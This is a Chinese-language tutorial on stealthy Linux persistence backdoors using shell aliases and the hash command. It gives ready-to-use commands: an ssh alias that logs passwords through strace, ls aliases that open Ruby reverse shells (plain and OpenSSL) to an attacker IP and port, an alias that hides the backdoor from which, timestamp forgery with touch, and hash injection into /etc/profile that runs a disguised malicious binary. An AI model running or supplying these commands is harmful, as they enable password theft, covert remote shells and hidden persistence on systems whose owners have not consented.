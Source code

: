 提到别名后门，不少对Linux有使用经验的老哥们都会想到alias后门，下面是一个经典的alias后门：

```shell
alias ssh='strace -o /tmp/sshwd-`date '+%d%h%m%s'`.log -e read -s2048 ssh'
```

它的目的是在持久化阶段偷取root用户的密码。这样的后门想要正常使用，往往是需要将它写到登陆配置文件（profile、bashrc）中的。运维人员自然比较容易中招，但也更容易发现识别。因为它过于明显了，又有谁闲着没事给配置文件里面搞strace不是么？（题外话，个人实践下来感觉，想要偷账户密码还是使用PAM后门或者OpenSSH编译后门更为稳定且不易发现）



下面给出一些其他的不常见别名后门。

## 安全内参-彭瑞版alias后门

去年12月底，freebuf和安全内参上发了一篇关于后门研究的文章，原文的作者提出了一些自己关于alias后门的研究与总结，它能实现用alias反弹shell，并且正常使用alias命令查看配置项无法看到写入的后门，隐蔽性很高。

链接地址：

```shell
https://www.secrss.com/articles/28412
https://www.freebuf.com/articles/system/259494.html
```

后门核心命令如下：

```shell
#使用alias反弹NCshell。
alias ls="alerts(){ ls $* --color=auto;ruby -rsocket -e 'exit if fork;c=TCPSocket.new("'"'"192.168.242.1"'"'","'"'"5555"'"'");while(cmd=c.gets);IO.popen(cmd,"'"'"r"'"'"){|io|c.print io.read}end';};alerts"

#使用alias反弹openssl shell
alias ls="alerts(){ ls $* --color=auto;ruby -rsocket -ropenssl -e 'exit if fork;c=OpenSSL::SSL::SSLSocket.new(TCPSocket.new("'"'"192.168.242.1"'"'","'"'"5555"'"'")).connect;while(cmd=c.gets);IO.popen(cmd.to_s,"r"){|io|c.print io.read}end';};alerts"

#屏蔽掉alias命令对后门的输出
alias which='alias | /usr/bin/which --tty-only --read-alias --show-dot --show-tilde'
```

与常规的alias后门不同，作者将这些命令写入/etc/yum/yum-update.rc文件中，并将篡改后的文件的时间戳改为和其他某个文件的时间戳一致。可以说，比较麻烦，但是很鸡贼了。

```shell
touch -acmr version-groups.conf yum-update.rc
```

## hash后门

这里我想给出一种更为罕见的后门，这种后门虽然隐蔽性不如上面那么强，但是由于现网渗透场景下出现的非常少，因此也可以作为别名后门技术的一种补充。

hash命令负责显示储存命令运行时系统优先查询的哈希表，如果通过提前向哈希表内注入恶意配置项，再配合一些wrapper后门或恶意文件也能达到别名后门的效果。

```shell
echo "hash -p /usr/share/man/man1/ls.2.gz ls" >> /etc/profile
#/usr/share/man/man1/ls.2.gz 是一个恶意二进制文件，先反弹shell，再执行正常执行ls。
```

举个demo例子：

```shell
echo "hash -p /usr/bin/pwd ls" >> /etc/profile
#当执行ls时会发现变成执行了pwd
```


